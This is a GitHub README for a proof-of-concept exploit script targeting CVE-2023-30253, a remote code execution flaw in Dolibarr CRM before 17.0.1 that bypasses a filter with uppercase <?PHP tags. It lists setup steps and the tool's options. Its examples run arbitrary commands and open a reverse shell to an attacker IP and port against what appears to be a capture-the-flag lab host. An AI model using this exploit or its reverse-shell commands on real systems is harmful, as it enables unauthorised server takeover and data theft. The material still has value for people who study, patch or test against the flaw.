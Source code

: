 # CVE-2023-30253

<p align="center">
  <img src="https://github.com/Rubikcuv5/cve-2023-30253/assets/47946047/eee891a5-2641-48c5-95bf-1b0e42ded1ac" alt="image">
</p>

# Description
 Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: <?PHP instead of <?php in injected data.



## Documentation

- [CVE-2023-30253](https://cvefeed.io/vuln/detail/CVE-2023-30253)
- [GitHub Advisory: GHSA-9wqr-5jp4-mjmh](https://github.com/advisories/GHSA-9wqr-5jp4-mjmh)

## Setup
```
git clone https://github.com/Rubikcuv5/cve-2023-30253.git

pip3 install -r requirements.txt

python3 CVE-2023-30253.py -h
```

## USAGE
```
usage: CVE-2023-30253.py [-h] [--url URL] [-u USER] [-p PASSWORD] (-c COMMAND | -r ip port)

Argument parser

options:
  -h, --help            show this help message and exit
  --url URL             URL of the website
  -u USER, --user USER  Username
  -p PASSWORD, --password PASSWORD
                        Password
  -c COMMAND, --command COMMAND
                        Command to execute
  -r ip port, --reverseshell ip port
                        Reverse shell IP and port

```
## EXAMPLES POC

### Execute a command 
```
python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -c "ls -l"
```

<p align="center">
  <img src="https://github.com/Rubikcuv5/cve-2023-30253/assets/47946047/25befa10-d52b-4f39-83cc-1398c7bb205e" alt="image">
</p>

### Getting a reverse shell
```
 python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -r  10.10.14.17  4444
```
<p align="center">
  <img src="https://github.com/Rubikcuv5/cve-2023-30253/assets/47946047/56473ae8-901f-4eb3-ad8f-7794970c19ce" alt="image">
</p>


## Author

- [Rubickcuv](https://github.com/Rubikcuv5)
